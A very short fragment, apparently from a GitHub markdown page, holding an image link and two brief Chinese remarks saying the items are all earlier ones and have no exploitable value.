

都是前面的

没有利用价值
